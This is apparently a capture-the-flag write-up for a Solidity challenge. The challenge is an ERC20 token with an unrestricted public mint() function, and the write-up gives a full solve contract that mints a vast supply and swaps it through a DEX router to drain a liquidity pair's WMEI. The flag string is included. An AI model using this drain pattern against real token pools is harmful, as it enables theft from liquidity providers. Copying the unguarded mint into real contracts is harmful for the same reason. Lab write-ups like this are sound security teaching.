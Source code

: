 # Challenge 02 : Dive into real life stuff [9 solves] [498 points] [First blood 🩸]

```
If you're at this point, you're probably Solidity fluent
So, in real life, trading takes place on DEXes.
There is a DEX ! This ERC20 will be deployed as a pair on it.
Steal the money ! It has to have less that 0.5 WMEL liquidities.
```

Our goal is to drain the pair contract until it has less than 0.5 WMEI

The challenge 2 contract is an ERC20 token called PWNNERN

It has a mint() function, allowing everyone to mint the token :

```solidity
    function mint(uint amount) external 
    {
        balanceOf[msg.sender] += amount;
        totalSupply += amount;
        emit Transfer(address(0), msg.sender, amount);
    }
```

So we can just mint a lot of this token and swap to WMEI with the router

```solidity
pragma solidity ^0.8.0;

import "./chall2.sol";

interface Router {
    function swapExactTokensForTokens(
        uint amountIn,
        uint amountOutMin,
        address[] calldata path,
        address to,
        uint deadline
    ) external returns (uint[] memory amounts);
}

contract chall2_solve {
    constructor(address chall2, address router, address wmei) public {
        hero2302(chall2).mint(999999999999 ether);
        hero2302(chall2).approve(router, type(uint256).max);
        address[] memory path = new address[](2);
        path[0] = chall2;
        path[1] = wmei;
        Router(router).swapExactTokensForTokens(999999999999 ether, 0, path, address(this), type(uint256).max);
    }
}
```

Flag :
```
Hero{Th1s_1_w4s_3z_bro}
```